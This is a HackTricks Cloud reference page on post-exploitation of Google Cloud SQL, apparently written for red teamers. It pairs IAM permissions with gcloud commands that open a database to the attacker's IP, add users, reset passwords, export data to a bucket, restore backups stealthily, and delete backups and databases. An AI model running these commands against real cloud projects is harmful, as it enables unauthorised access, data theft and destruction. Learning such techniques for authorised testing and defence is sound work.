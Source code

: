 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

For more information about Cloud SQL check:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

To connect to the databases you **just need access to the database port** and know the **username** and **password**, there isn't any IAM requirements. So, an easy way to get access, supposing that the database has a public IP address, is to update the allowed networks and **allow your own IP address to access it**.

```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
    --authorized-networks "$(curl ifconfig.me)" \
    --assign-ip \
    --quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```

It's also possible to use **`--no-backup`** to **disrupt the backups** of the database.

As these are the requirements I'm not completely sure what are the permissions **`cloudsql.instances.connect`** and **`cloudsql.instances.login`** for. If you know it send a PR!

### `cloudsql.users.list`

Get a **list of all the users** of the database:

```bash
gcloud sql users list --instance <intance-name>
```

### `cloudsql.users.create`

This permission allows to **create a new user inside** the database:

```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```

### `cloudsql.users.update`

This permission allows to **update user inside** the database. For example, you could change its password:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backups might contain **old sensitive information**, so it's interesting to check them.\
**Restore a backup** inside a database:

```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```

To do it in a more stealth way it's recommended to create a new SQL instance and recover the data there instead of in the currently running databases.

### `cloudsql.backupRuns.delete`

This permission allow to delete backups:

```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```

### `cloudsql.instances.export`, `storage.objects.create`

**Export a database** to a Cloud Storage Bucket so you can access it from there:

```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```

### `cloudsql.instances.import`, `storage.objects.get`

**Import a database** (overwrite) from a Cloud Storage Bucket:

```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```

### `cloudsql.databases.delete`

Delete a database from the db instance:

```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
